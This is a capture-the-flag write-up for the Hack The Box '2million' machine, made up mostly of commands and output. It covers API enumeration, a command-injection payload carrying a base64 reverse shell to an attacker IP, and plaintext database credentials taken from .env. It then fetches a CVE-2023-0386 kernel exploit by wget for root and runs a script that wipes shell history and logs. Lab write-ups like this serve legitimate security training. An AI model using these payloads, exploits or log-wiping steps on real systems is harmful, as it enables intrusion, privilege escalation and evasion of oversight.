 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 50
 :: Matcher          : Response status: all
 :: Filter           : Response words: 5
________________________________________________

access                  [Status: 200, Size: 17238, Words: 6555, Lines: 344, Duration: 333ms]
changelog               [Status: 200, Size: 43993, Words: 13195, Lines: 692, Duration: 296ms]
rules                   [Status: 200, Size: 14542, Words: 4595, Lines: 302, Duration: 352ms]
:: Progress: [4734/4734] :: Job [1/1] :: 126 req/sec :: Duration: [0:00:35] :: Errors: 0 ::
```
```bash
$ ffuf -u http://2million.htb/api/v1/user/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt \
-H "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0" \
-H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8" \
-H "Accept-Language: en-US,en;q=0.5" \
-H "Accept-Encoding: gzip, deflate" \
-H "Connection: keep-alive" \
-H "Referer: http://2million.htb/home/access" \
-H "Cookie: PHPSESSID=vr2g5a0h8mtpiuiak0u7sf5io4" \
-H "Upgrade-Insecure-Requests: 1" \
-H "Priority: u=0, i" \
-t 50 -mc all -c -fw 5

auth                    [Status: 200, Size: 51, Words: 1, Lines: 1, Duration: 324ms]
login                   [Status: 405, Size: 0, Words: 1, Lines: 1, Duration: 738ms]
register                [Status: 405, Size: 0, Words: 1, Lines: 1, Duration: 321ms]
```

## Test user
```bash
$ curl -s -X GET http://2million.htb/api/v1/user/auth \
-H "Host: 2million.htb" \
-H "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0" \
-H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8" \
-H "Accept-Language: en-US,en;q=0.5" \
-H "Accept-Encoding: gzip, deflate" \
-H "Connection: keep-alive" \
-H "Referer: http://2million.htb/home/access" \
-H "Cookie: PHPSESSID=vr2g5a0h8mtpiuiak0u7sf5io4" \
-H "Upgrade-Insecure-Requests: 1" \
-H "Priority: u=0, i" | jq

{
    "loggedin": true,
    "username": "l0n3m4n",
    "is_admin": 0
}
```
## Admin user
"In the user API endpoint, there was a `message: true` response in the result from Caido and cURL. I tested the admin user on `/api/v1/admin/auth`, which returned a `message: false`, indicating that we need to set the admin status to `true` to obtain the admin user's OVPN file using a PUT request. Eventually, I discovered that this endpoint is vulnerable to command injection, allowing us to craft a reverse shell payload to gain access to the system."
```bash
$ curl -s -X GET http://2million.htb/api/v1/admin/auth \         
-H "Host: 2million.htb" \
-H "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0" \
-H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8" \
-H "Accept-Language: en-US,en;q=0.5" \
-H "Accept-Encoding: gzip, deflate" \
-H "Connection: keep-alive" \
-H "Referer: http://2million.htb/home/access" \
-H "Cookie: PHPSESSID=vr2g5a0h8mtpiuiak0u7sf5io4" \
-H "Upgrade-Insecure-Requests: 1" \
-H "Priority: u=0, i" | jq
{
  "message": false
}
         
```




## Initial access
```bash
$ echo "/bin/bash -i >& /dev/tcp/10.10.14.13/9001 0>&1" | base64 
L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjEzLzkwMDEgMD4mMQo=
```
```bash
curl -X POST http://2million.htb/api/v1/admin/vpn/generate \
-H "Upgrade-Insecure-Requests: 1" \
-H "User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36" \
-H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7" \
-H "Referer: http://2million.htb/home/access" \
-H "Accept-Encoding: gzip, deflate" \
-H "Accept-Language: en-US,en;q=0.9" \
-H "Content-Type: application/json" \
-H "Cookie: PHPSESSID=ifr46lifc938mcjg0uniad7hrd" \
-d '{
    "loggedin": true,
    "username": "l0n3m4n;echo '\''L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjEzLzkwMDEgMD4mMQo='\'' | base64 -d | bash;",
    "is_admin": 1,
    "email": "l0n3m4n@2million.htb"
}'
```
```bash
$ rlwrap -cAr nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.13] from (UNKNOWN) [10.10.11.221] 45582
bash: cannot set terminal process group (1193): Inappropriate ioctl for device
bash: no job control in this shell
www-data@2million:~/html$ 

```

## Post Enumeration
```bash
www-data@2million:~/html$ export TERM=linux 

www-data@2million:~/html$ cat /etc/passwd | grep 100
cat /etc/passwd | grep 100
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
admin:x:1000:1000::/home/admin:/bin/bash
www-data@2million:~/html$ 

www-data@2million:~/html$ pwd
/var/www/html

www-data@2million:~/html$ ls -al 
ls -al 
total 56

drwxr-xr-x 10 root root 4096 Dec 26 03:20 .
drwxr-xr-x  3 root root 4096 Jun  6  2023 ..
-rw-r--r--  1 root root   87 Jun  2  2023 .env
-rw-r--r--  1 root root 1237 Jun  2  2023 Database.php
-rw-r--r--  1 root root 2787 Jun  2  2023 Router.php
drwxr-xr-x  5 root root 4096 Dec 26 03:20 VPN
drwxr-xr-x  2 root root 4096 Jun  6  2023 assets
drwxr-xr-x  2 root root 4096 Jun  6  2023 controllers
drwxr-xr-x  5 root root 4096 Jun  6  2023 css
drwxr-xr-x  2 root root 4096 Jun  6  2023 fonts
drwxr-xr-x  2 root root 4096 Jun  6  2023 images
-rw-r--r--  1 root root 2692 Jun  2  2023 index.php
drwxr-xr-x  3 root root 4096 Jun  6  2023 js
drwxr-xr-x  2 root root 4096 Jun  6  2023 views

www-data@2million:~/html$ cat .env
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```
```bash
$ ssh admin@2million.htb
...
...

admin@2million:~$ id
uid=1000(admin) gid=1000(admin) groups=1000(admin)
admin@2million:~$ 

```
## Post Exploitation Enumeration 

## Gaining Root
"Gaining full root access to the target system wasn't difficult because, in the machine info of the HTB box, it mentioned that the system kernel was vulnerable and even provided the CVE ID, making it easy to identify the vulnerability. Eventually, we found a proof of concept in the results from SploitScan, and after testing it, within a few seconds, we had root access. From my perspective, I disciplined myself to cover my tracks, whether in a CTF or a real environment, to make it look like we're actually doing red teaming charot, haha!, Thanks for reading! ✌️ Peace out! 😎"
```bash
$ sploitscan CVE-2023-0386  

███████╗██████╗ ██╗      ██████╗ ██╗████████╗███████╗ ██████╗ █████╗ ███╗   ██╗
██╔════╝██╔══██╗██║     ██╔═══██╗██║╚══██╔══╝██╔════╝██╔════╝██╔══██╗████╗  ██║
███████╗██████╔╝██║     ██║   ██║██║   ██║   ███████╗██║     ███████║██╔██╗ ██║
╚════██║██╔═══╝ ██║     ██║   ██║██║   ██║   ╚════██║██║     ██╔══██║██║╚██╗██║
███████║██║     ███████╗╚██████╔╝██║   ██║   ███████║╚██████╗██║  ██║██║ ╚████║
╚══════╝╚═╝     ╚══════╝ ╚═════╝ ╚═╝   ╚═╝   ╚══════╝ ╚═════╝╚═╝  ╚═╝╚═╝  ╚═══╝
v0.10.5 / Alexander Hagenah / @xaitax / ah@primepage.de

╔═══════════════════════╗
║ CVE ID: CVE-2023-0386 ║
╚═══════════════════════╝

┌───[ 🔍 Vulnerability information ]
|
├ Published:   2023-03-22
├ Base Score:  N/A (N/A)
├ Vector:      N/A
└ Description: A flaw was found in the Linux kernel, where unauthorized access to the execution of the setuid file
               with capabilities was found in the Linux kernel’s OverlayFS subsystem in how a user
               copies a capable file from a nosuid mount into another mount. This uid mapping bug
               allows a local user to escalate their privileges on the system.

┌───[ ♾️ Exploit Prediction Score (EPSS) ]
|
└ EPSS Score:  0.23% Probability of exploitation.

┌───[ 🛡️ CISA KEV Catalog ]
|
└ ❌ No data found.

┌───[ 💣 Public Exploits (Total: 6) ]
|
├ GitHub
│  ├ Date: 2024-04-23 - https://github.com/EstamelGG/CVE-2023-0386-libs
│  ├ Date: 2023-06-28 - https://github.com/Fanxiaoyao66/CVE-2023-0386
│  ├ Date: 2023-05-16 - https://github.com/sxlmnwb/CVE-2023-0386
│  ├ Date: 2023-05-08 - https://github.com/CKevens/CVE-2023-0386
│  ├ Date: 2023-05-06 - https://github.com/chenaotian/CVE-2023-0386
│  └ Date: 2023-05-05 - https://github.com/xkaneiki/CVE-2023-0386
│
└ Other
   └ PacketStorm: https://packetstormsecurity.com/search/?q=CVE-2023-0386

┌───[ 🕵️ HackerOne Hacktivity ]
|
├ Rank:        7425
├ Reports:     0
└ Severity:    Unknown: 0 / None: 0 / Low: 0 / Medium: 0 / High: 0 / Critical: 0

┌───[ 🤖 AI-Powered Risk Assessment ]
|
|                                     
| ❌ OpenAI API key is not configured correctly.
|
└────────────────────────────────────────

┌───[ ⚠️ Patching Priority Rating ]
|
└ Priority:     A+

┌───[ 📚 Further References ]
|
├ https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=4f11ada10d0a
├ https://security.netapp.com/advisory/ntap-20230420-0004/
├ https://www.debian.org/security/2023/dsa-5402
├ https://lists.debian.org/debian-lts-announce/2023/06/msg00008.html
├ http://packetstormsecurity.com/files/173087/Kernel-Live-Patch-Security-Notice-LSN-0095-1.html
└ https://lists.debian.org/debian-lts-announce/2024/06/msg00020.html
```
### PoC
> exp.sh
- PoC Reference: https://github.com/Fanxiaoyao66/CVE-2023-0386/blob/master/exp.sh 
> fuse.c
- https://github.com/Fanxiaoyao66/CVE-2023-0386/blob/master/fuse.c
```bash
$ python3 -m http.server 8080 
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
10.10.11.221 - - [REDACTED] "GET /exp.sh HTTP/1.1" 200 -
10.10.11.221 - - [REDACTED] "GET /fuse.c HTTP/1.1" 200 -
```
```bash
admin@2million:~$ wget http://10.10.14.13:8080/exp.sh
...
...
Length: 435 [text/x-sh]
Saving to: ‘exp.sh’

exp.sh                                     100%[=====================================================================================>]     435  --.-KB/s    in 0.007s  

admin@2million:~$ wget http://10.10.14.13:8080/fuse.c
...
...
Length: 4532 (4.4K) [text/x-csrc]
Saving to: ‘fuse.c’

fuse.c                                     100%[=====================================================================================>]   4.43K  --.-KB/s    in 0.02s   


admin@2million:~$ chmod +x exp.sh
admin@2million:~$ ls 
exp.sh  fuse.c  linpeas.sh  snap  user.txt

admin@2million:~$ ./exp.sh
[+] Create dir
[+] Compile fuse.c
[+] Create fuse file system
[+] Create overlayFS
[+] Copy Up
[+] You are root!

# id
uid=0(root) gid=0(root) groups=0(root),1000(admin)

# python3 -c 'import pty;pty.spawn("/bin/bash")'

root@2million:/home/admin# 
```

## Covering Tracks 
> https://github.com/undergroundwires/privacy.sexy/releases/download/0.13.7/privacy.sexy-0.13.7.AppImage
```bash
root@2million:/root# ls
cover-tracks.sh  root.txt  snap  thank_you.json

root@2million:/root# chmod +x cover-tracks.sh

root@2million:/root# ./cover-tracks.sh
--- Clear bash history
removed '/root/.bash_history'
--- Clear Zsh history
--- Clear tcsh history
--- Clear fish history
--- Clear KornShell (ksh) history
--- Clear ash history
--- Clear crosh history
--- Clear privacy.sexy script history
--- Clear privacy.sexy activity logs
--- Clear Wine cache
...
...
removed directory '/var/tmp/systemd-private-3badc410f23a40ad9cb529c002515bca-systemd-timesyncd.service-zjPe0m'
--- Clear screenshots
Your privacy and security is now hardened 🎉💪
Press any key to exit.

```

## Flags
```bash
# user flag
a9f1c7304b[redacted]6dc5fb074f44

# root flag
23e23e0809[redacted]4a49ec978d39

```